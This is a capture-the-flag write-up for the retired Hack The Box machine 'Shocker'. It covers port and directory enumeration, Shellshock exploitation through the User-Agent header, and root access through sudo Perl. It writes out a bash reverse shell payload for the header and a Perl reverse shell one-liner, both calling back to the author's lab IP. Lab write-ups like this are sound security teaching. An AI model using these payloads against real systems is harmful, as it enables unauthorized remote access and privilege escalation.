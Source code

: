 # Shocker

This is the write-up for the box Shocker that got retired at the 17th February 2018.
My IP address was 10.10.14.28 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.56    shocker.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/shocker.nmap 10.10.10.56
```

```markdown
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The version of **OpenSSH 7.2p2** for this version of Ubuntu got released on March 2017 which means the box probably didn't get patched since then.
When looking up the [Ubuntu packages](https://packages.ubuntu.com/search?keywords=apache&searchon=names&suite=xenial&section=all) and search for Apache, it becomes clear that this version of Ubuntu is **Xenial**.

## Checking HTTP (Port 80)

On the web page there is an image of a bug that has a hammer and the text _"Don't bug me"_ and nothing interesting in the source code.
Lets look for hidden directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.56 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds _/cgi-bin_ with the HTTP status code _403 Forbidden_. This directory is used by Apache to give over commands to scripting languages on the server.
Lets look for scripts that are in that directory with the _sh_ or _pl_ extension:
```markdown
gobuster -u http://10.10.10.56/cgi-bin/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x sh,pl
```

It finds some script called _user.sh_ that we can download and the contents are the results of the `uptime` command.
As the Linux version is old, this cgi-bin directory exists and the name of the box is _Shocker_, it seems like these are hints to exploit this box with **Shellshock**.

### Exploiting the box

To use the **Shellshock** we need to put the special string into any HTTP header. I will use **Burpsuite** to modify the _User-Agent_ header to look like this:
```markdown
User-Agent: () { :; }; echo ; /bin/ls
```

This outputs the contents of the `ls` command. The `echo` command is important to do a line break between the HTTP header and the output, otherwise it will not work.

Now we can execute a reverse shell:
```markdown
User-Agent: () { :; }; echo ; /bin/bash -i >& /dev/tcp/10.10.14.28/9001 0>&1
```

The listener on my IP and port 9001 starts a session with the user _shelly_.

## Privilege Escalation

Checking the root permissions of _shelly_, it reveals that the user can execute **Perl** as root:
```markdown
sudo -l

# Output
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

So we can start a reverse shell with a Perl command:
```markdown
sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.28";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

The listener on my IP and port 9002 starts a root shell!

